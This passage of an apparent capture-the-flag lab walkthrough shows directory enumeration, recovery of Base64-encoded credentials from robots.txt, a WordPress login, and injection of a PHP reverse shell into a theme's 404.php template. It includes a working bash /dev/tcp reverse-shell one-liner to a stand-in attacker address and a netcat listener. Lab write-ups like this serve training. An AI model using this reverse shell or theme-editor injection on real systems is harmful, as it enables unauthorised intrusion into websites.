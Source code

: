3. Directory/virtual path enumeration on the web server:

```bash
gobuster dir -u http://10.10.X.X -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 50 -o gobuster/root.txt
# or feroxbuster
# feroxbuster -u http://10.10.X.X -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 50
```

From the gobuster output we found entries such as `/robots.txt`, `/license`, `/readme`, and `/wp-login.php`.

---

## Finding credentials (robots.txt / license)

1. Open `robots.txt`:

```bash
curl -sS http://10.10.X.X/robots.txt
```

2. The `robots.txt` pointed to a `license` (or other hidden file) that contained a Base64 string. Copy that and decode it locally:

```bash
# if the encoded string is in variable $B64
echo 'BASE64_STRING' | base64 -d
# or use an online Base64 decoder
```

3. The decoded text contained credentials, e.g.:
```
Elliot: <password_here>
```

---

## Accessing WordPress (Foothold)

1. Visit `http://10.10.X.X/wp-login.php` and log in using the credentials found in the previous step.
2. As the authenticated user, navigate to `Appearance -> Theme File Editor` (or `Pages -> Editor`) and find a theme template (e.g., `404.php`) that can be edited.
3. Replace or inject a PHP reverse shell payload (generate one from a site like `revshells` or use a simple PHP rev shell) into the editable page. Example minimal PHP reverse shell (use at your own discretion):

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"); ?>
```

4. On your attacker machine, start a netcat listener to catch the reverse shell:

```bash
nc -lvnp 9010
```
